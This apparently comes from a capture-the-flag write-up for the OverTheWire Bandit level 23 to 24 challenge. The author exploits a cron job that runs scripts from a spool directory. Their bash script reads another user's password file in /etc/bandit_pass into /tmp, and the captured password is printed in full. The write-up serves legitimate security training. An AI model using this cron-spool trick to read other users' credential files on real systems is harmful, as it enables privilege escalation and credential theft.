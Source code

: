 This is a very simple challenge, which makes us feel a bit tough!
![Bandit23](https://github.com/sreekesari-vangeepuram/overthewire/blob/master/overthewire/bandit/bandit23/level23-%3Elevel24.png)

If you are familiar with bash-scripting it's just a piece-of-cake for you!
Or else, learn bash-scripting from [Ryan's tutorials](https://ryanstutorials.net/bash-scripting-tutorial/). 
Also do you know what is a cron-job?

If you've surfed a bit around here-an-there in the previous leve, you might have come across this:
```
bandit22@bandit:~$ ls -al /var
total 48
drwxr-xr-x 11 root     root     4096 May  7 20:14 .
drwxr-xr-x 26 root     root     4096 May 13 12:50 ..
drwxr-xr-x  2 root     root     4096 Sep  3 06:52 backups
drwxr-xr-x  7 root     root     4096 May  3 14:25 cache
-rwx------  1 root     root        0 May  7 19:45 crash
-rw-------  1 bandit22 bandit22  348 May  7 20:14 .info22.txt
drwxr-xr-x 31 root     root     4096 May  7 19:45 lib
drwxrwsr-x  2 root     staff    4096 Jun  3  2018 local
lrwxrwxrwx  1 root     root        9 May  3 14:16 lock -> /run/lock
drwxr-x---  8 root     root     4096 Sep  3 06:52 log
drwxrwsr-x  2 root     mail     4096 May  3 14:16 mail
drwxr-xr-x  2 root     root     4096 May  3 14:16 opt
lrwxrwxrwx  1 root     root        4 May  3 14:16 run -> /run
drwxr-xr-x  5 root     root     4096 May 14 09:41 spool
drwx------  2 root     root     4096 May  7 19:45 tmp
bandit22@bandit:~$ cat /var/.info22.txt 
Did you know that cron was invented by Brian Kernighan, co-author of the C
programming language? There is much confusion about what "cron" means. Most
people assume it is derived from "Chronos", which is greek for "time". Of
course to be really sure, someone would have to ask Brian Kernighan, who is
currently a professor at Princeton University.
bandit22@bandit:~$
```
`Brian Kernighan` is one of the legendary computer scientists. He contributed alot for the development of Unix OS alongwith Ken Thompson and Dennis Ritchie.
If you wanna know more about him and his creations, I suggest you to watch this [video](https://www.youtube.com/watch?v=O9upVbGSBFo).


Let's see what we can do:
```
bandit23@bandit:~$ ls /etc/cron.d/
cronjob_bandit15_root  cronjob_bandit17_root  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  cronjob_bandit25_root
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/get_bandit24_pass
bandit23@bandit:/tmp/get_bandit24_pass$ ls
bandit23@bandit:/tmp/get_bandit24_pass$ nano bashing_script.sh
Unable to create directory /home/bandit23/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

bandit23@bandit:/tmp/get_bandit24_pass$ cat bashing_script.sh 
#!/bin/bash

# First let's create a file to store the password of user `bandit24`
touch /tmp/get_bandit24_pass/password_of_bandit24 && chmod +rw /tmp/get_bandit24_pass/password_of_bandit24

# Since the owner of the file `/etc/bandit_pass/bandit24` is bandit24 and so the owner of the directory of /var/spool/bandit24
cat /etc/bandit_pass/bandit24 >> /tmp/get_bandit24_pass/password_of_bandit24

# Finally, let's copy this script to `/var/spool/bandit24`
bandit23@bandit:/tmp/get_bandit24_pass$
bandit23@bandit:/tmp/get_bandit24_pass$ chmod +rwx bashing_script.sh 
bandit23@bandit:/tmp/get_bandit24_pass$ cp bashing_script.sh /var/spool/bandit24/
bandit23@bandit:/tmp/get_bandit24_pass$ chmod 777 .
bandit23@bandit:/tmp/get_bandit24_pass$ date
Thu Sep  3 13:00:46 CEST 2020
bandit23@bandit:/tmp/get_bandit24_pass$ date
Thu Sep  3 13:02:03 CEST 2020
bandit23@bandit:/tmp/get_bandit24_pass$ ls
bashing_script.sh  password_of_bandit24
bandit23@bandit:/tmp/get_bandit24_pass$ cat password_of_bandit24 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
bandit23@bandit:/tmp/get_bandit24_pass$
```

Since the owner of the file `/etc/bandit_pass/bandit24` and the eligible group of the directory `/var/spool/bandit24/` is the user `banidt24`;
and also since there's a cron job running just as the example which is a hint for us at `/usr/bin/cronjob_bandit24.sh`...the process-flow might've striked your brain.
That with the time limit something like `timeout -s 9 60 ./<script>`, the script in the directory `/var/spool/banidt24` run every one-minute.
To be able to other  users to access the file `/tmp/get_bandit24_pass/password_of_bandit24` we gave permissions to both it's directory and the file-itself.

So finally we get the password directly from `/etc/bandit_pass/bandit24` to our file `/tmp/get_bandit24_pass/password_of_bandit24`, because of the cron-job, which runs our script which was copied into `/var/spool/bandit24/`.

Hope you've learnt something new from this [if you don't know this before/didn't strike to you during the start].

Now, let's use the password `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ` to log into the remote-machine as `bandit24`.

**Warning: Please, first try Level 24 -> Level 25! Otherwise it's useless to simply cpy-pst the command[s]/password[s].
